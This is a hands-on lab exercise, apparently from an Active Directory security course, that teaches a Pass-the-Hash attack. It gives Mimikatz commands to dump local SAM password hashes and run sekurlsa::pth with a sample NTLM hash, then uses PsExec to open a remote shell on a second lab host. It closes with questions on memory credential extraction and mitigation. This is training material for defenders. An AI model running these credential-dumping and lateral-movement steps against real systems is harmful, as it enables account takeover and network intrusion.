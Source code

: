 # Exercise 2 - NTLM (Pass-the-Hash)

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](https://github.com/gentilkiwi/mimikatz)

## Exercise

In this exercise, we'll execute a Pass-the-Hash attack through the local Administrator account. Remember (see Lab Setup Guide) that we set the same local admin password on adsec-00 as well as on adsec-01. Therefore the NTLM hashes are the same on both computers.

Open a command prompt with admin rights (right-click "Run as Administrator") and start mimikatz.

```
cd C:\attacker-tools
.\mimikatz_trunk\x64\mimikatz.exe
```

Run the following commands inside mimikatz to extract the password hashes of the **local** user accounts.

```
privilege::debug
token::elevate
lsadump::sam
```

Next, we use the PTH-function in mimikatz to start a shell with the hash of the local admin account (RID 500).

```
sekurlsa::pth /user:adminuser /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

Finally, connect to adsec-01 using psexec.

```
cd C:\attacker-tools
.\PsExec64.exe \\adsec-01 cmd
```

Make sure everything worked as expected

```
whoami
hostname
```

## Questions

- What is the purpose of the mimikatz commands "privilege::debug" and "token::elevate"? Why do you need to execute them?
- Log on to adsec-01 as Bruce Lee. Use what you learned above and help john to remotely extract Bruce Lees NTLM hash from memory. `Note:` "lsadump::sam" only dumps the local password database. You need to use a different command to extract data from memory.
- Do research on the internet on how to best mitigate pass-the-hash attacks. Describe the mitigation techniques that you think are the best and explain why you chose them.
- Is it possible (and feasible) to just disable NTLM at all? Explain your reasoning.